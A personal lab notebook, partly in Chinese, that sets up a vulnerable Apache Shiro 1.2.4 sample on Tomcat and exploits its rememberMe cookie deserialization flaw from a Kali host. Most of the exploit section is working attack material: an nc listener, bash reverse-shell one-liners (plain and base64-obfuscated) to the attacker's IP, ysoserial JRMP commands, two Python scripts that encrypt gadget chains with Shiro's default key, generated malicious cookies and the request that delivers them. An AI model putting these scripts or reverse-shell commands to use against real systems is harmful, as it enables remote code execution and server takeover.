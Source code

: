 
# target
centos 192.168.207.3 
## install tomcat
	https://www.ionos.com/community/server-cloud-infrastructure/apache/install-and-use-apache-tomcat-on-centos-7/

## build and deploy	
	https://cloud.tencent.com/developer/article/1041471
	https://github.com/apache/shiro/releases/tag/shiro-root-1.2.4
	需要安装jdk1.6和maven支持1.6的版本，比如C:\Dev\apache-maven-3.0.4\，然后需要添加下面这个xml
	.m2/toolchains.xml
	<?xml version="1.0" encoding="UTF8"?>
	<toolchains>
	  <toolchain>
		<type>jdk</type>
		<provides>
		  <version>1.6</version>
		  <vendor>sun</vendor>
		</provides>
		<configuration>
		   <jdkHome>C:\Program Files\Java\jdk1.6.0_45</jdkHome>
		</configuration>
	  </toolchain>
	</toolchains>
	shiro-shiro-root-1.2.4\samples\web

	mvn eclipse:eclipse
	mvn clean install
	
	http://192.168.207.3:8080/
	deploy war
	got error 
	The absolute uri: http://java.sun.com/jsp/jstl/core cannot be resolved in either web.xml or the jar 
	change pom.xml
		<dependency>
			<groupId>javax.servlet</groupId>
			<artifactId>jstl</artifactId>
			<version>1.2</version>
			<scope>provided</scope>
		</dependency>
		
		<dependency>
			<groupId>javax.servlet</groupId>
			<artifactId>jstl</artifactId>
			<version>1.2</version>
			<scope>runtime</scope>
		</dependency>
		<dependency>
			<groupId>commons-beanutils</groupId>
			<artifactId>commons-beanutils</artifactId>
			<version>1.9.2</version>
			<exclusions>
				<exclusion>
					<groupId>commons-logging</groupId>
					<artifactId>commons-logging</artifactId>
				</exclusion>
			</exclusions>
		</dependency>
		<dependency>
			<groupId>org.apache.commons</groupId>
			<artifactId>commons-collections4</artifactId>
			<version>4.0</version>
		</dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>servlet-api</artifactId>
            <!--<scope>provided</scope>-->
        </dependency>
# exploit:
kali 192.168.207.4
## 开启监听
nc -lvp 666
## 构造payload
核心payload：反弹shell
bash -i >& /dev/tcp/192.168.207.4/666 0>&1
/bin/bash -i >& /dev/tcp/192.168.207.4/666 0>&1
http://www.jackson-t.ca/runtime-exec-payloads.html
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwNy40LzY2NiAwPiYx}|{base64,-d}|{bash,-i}
开启ysoserial
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 777 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwNy40LzY2NiAwPiYx}|{base64,-d}|{bash,-i}'
#method 1
python shiro.py 192.168.207.4:777

import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())


rememberMe=1HdAtcjiSVm2/83+p8V+x3gvxQQ+mm+u1eVqxA4QkHVyEPghfUNNa1CCkzpjqIpVMLbdWdYIzJNiyJfxpPTRTNs7LioxW9vvPow+cYynPX5vlshDlQCoc8hZ10WGA+GOr14CxT7mEaXaI7r8f7ZEJ4QUhOJWoP6HYA0/ye5q8uzqSA+eSmTglcOcqX6eLVpg+vZwipFuseUzEwjrudvnoUUHHAUv4qwbcFh40i7G9PPcAZPC/BoKTVqWqOTDrKo6385Gxpsl+bZWNl99G3JO9VnoiBwYCna10tzyxplZYeKlntyl3gRlLQj7jkCKoIyWTeVieGCITHTmnOStuXhN8Dic9HQaQFJtYTZb+XY1usZLD89qV/OqrmcbaxqE7Erkv4TgcnSI+sXwg91q6sklpg==
rememberMe=1HdAtcjiSVm2/83+p8V+x3gvxQQ+mm+u1eVqxA4QkHVyEPghfUNNa1CCkzpjqIpVMLbdWdYIzJNiyJfxpPTRTNs7LioxW9vvPow+cYynPX5vlshDlQCoc8hZ10WGA+GOr14CxT7mEaXaI7r8f7ZEJ4QUhOJWoP6HYA0/ye5q8uzqSA+eSmTglcOcqX6eLVpg+vZwipFuseUzEwjrudvnoUUHHAUv4qwbcFh40i7G9PPcAZPC/BoKTVqWqOTDrKo6385Gxpsl+bZWNl99G3JO9VnoiBwYCna10tzyxplZYeKlntyl3gRlLQj7jkCKoIyWTeVieGCITHTmnOStuXhN8Dic9HQaQFJtYTZb+XY1usZLD89qV/OqrmcbaxqE7Erkv4TgcnSI+sXwg91q6sklpg==
liu> 


#method 2
python create_payload.py "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwNy40LzY2NiAwPiYx}|{base64,-d}|{bash,-i}"
python create_payload.py "bash -i >& /dev/tcp/192.168.207.4/666 0>&1"

# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("/tmp/payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)
		
python create_payload.py "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwNy40LzY2NiAwPiYx}|{base64,-d}|{bash,-i}"
# 安装了 httpie 可以运行如下指令
http http://192.168.207.3:8080/samples-web-1.2.4/ Cookie:`cat /tmp/payload.cookie`

http://192.168.207.3:8080/samples-web-1.2.4 'bash -i >& /dev/tcp/192.168.207.4/666 0>&1'


失败怀疑：
1.靶子机器 jdk版本，tomcat版本
 1016  sudo yum install java-1.6.0-openjdk
 1017  sudo systemctl restart tomcat
 1018  alternatives --config java
 1019  sudo alternatives --config java
 1020  sudo systemctl restart tomcat
2.shiro web sample依赖跟 ysoserial的依赖版本不一致


https://paper.seebug.org/shiro-rememberme-1-2-4/
https://mp.weixin.qq.com/s/8F5tmbJsE0SshrYK-fRl-g
https://mp.weixin.qq.com/s/4nlIj2xz8HMkJpHKCl32aQ
yum install java-1.8.0-openjdk
update-alternatives --config java
JAVA_HOME 

https://blog.csdn.net/jiangbb8686/article/details/100158824
于是我修改版本号到1.9.2

https://xz.aliyun.com/t/2650
https://www.cnblogs.com/peterpan0707007/p/11342997.html
http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://blog.spoock.com/2018/10/31/reverse-shell-on-limited-environments/

https://www.cnblogs.com/Welk1n/p/10511145.html

